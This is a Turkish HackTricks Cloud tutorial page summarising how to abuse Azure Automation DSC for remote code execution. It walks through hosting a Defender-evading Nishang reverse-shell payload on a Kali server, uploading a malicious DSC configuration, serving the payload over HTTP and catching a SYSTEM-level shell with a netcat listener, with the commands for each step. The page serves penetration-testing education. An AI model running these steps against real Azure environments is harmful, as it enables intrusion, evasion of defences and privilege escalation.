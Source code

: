 # Az - Durum Yapılandırma Uzaktan Kod Çalıştırma

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek HackTricks ve HackTricks Cloud github depolarına katkıda bulunun.**

</details>
{% endhint %}

**Tam gönderiyi kontrol edin: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Uzak Sunucu (C2) Altyapı Hazırlığı ve Adımlarının Özeti

#### Genel Bakış
Bu süreç, Windows Defender'ı atlatmak için tasarlanmış `RevPS.ps1` adlı değiştirilmiş bir Nishang `Invoke-PowerShellTcp.ps1` yükünü barındırmak için uzaktan bir sunucu altyapısı kurmayı içerir. Yük, IP'si `40.84.7.74` olan bir Kali Linux makinesinden basit bir Python HTTP sunucusu kullanılarak sunulmaktadır. İşlem birkaç adımda gerçekleştirilir:

#### Adım 1 — Dosyalar Oluşturma
- **Gerekli Dosyalar:** İki PowerShell betiği gereklidir:
1. `reverse_shell_config.ps1`: Yükü alıp çalıştıran bir Desired State Configuration (DSC) dosyası. [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) adresinden temin edilebilir.
2. `push_reverse_shell_config.ps1`: Yapılandırmayı sanal makineye yayınlamak için bir betik, [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1) adresinde bulunmaktadır.
- **Özelleştirme:** Bu dosyalardaki değişkenler ve parametreler, kaynak adları, dosya yolları ve sunucu/yük kimlikleri de dahil olmak üzere kullanıcının belirli ortamına uyarlanmalıdır.

#### Adım 2 — Yapılandırma Dosyasını Sıkıştırma
- `reverse_shell_config.ps1` bir `.zip` dosyasına sıkıştırılarak Azure Depolama Hesabına transfer için hazır hale getirilir.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Adım 3 — Depolama Bağlamını Ayarlayın ve Yükleyin
- Sıkıştırılmış yapılandırma dosyası, Azure'ın Set-AzStorageBlobContent komut dosyasını kullanarak önceden belirlenmiş bir Azure Depolama konteynerine, azure-pentest'e yüklenir.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Adım 4 — Kali Kutusunu Hazırlayın
- Kali sunucusu, RevPS.ps1 yükünü bir GitHub deposundan indirir.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Betik, ters shell için hedef Windows VM ve portu belirtmek üzere düzenlenmiştir.

#### Adım 5 — Yapılandırma Dosyasını Yayımla
- Yapılandırma dosyası yürütülür ve ters shell betiği belirtilen konuma Windows VM üzerinde dağıtılır.

#### Adım 6 — Yükü Barındır ve Dinleyiciyi Kur
- Bir Python SimpleHTTPServer, yükü barındırmak için başlatılır, ayrıca gelen bağlantıları yakalamak için bir Netcat dinleyici kurulur.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zamanlanmış görev, payload'ı yürüterek SİSTEM düzeyinde ayrıcalıklar elde eder.

#### Sonuç

Bu sürecin başarılı bir şekilde yürütülmesi, kimlik bilgilerinin sızdırılması veya saldırının birden fazla sanal makineye genişletilmesi gibi birçok olasılığı beraberinde getirir. Kılavuz, Azure Automation DSC alanında devam eden öğrenmeyi ve yaratıcılığı teşvik eder.

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitimi AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitimi GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* Hacking püf noktalarını paylaşarak PR'ler göndererek [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
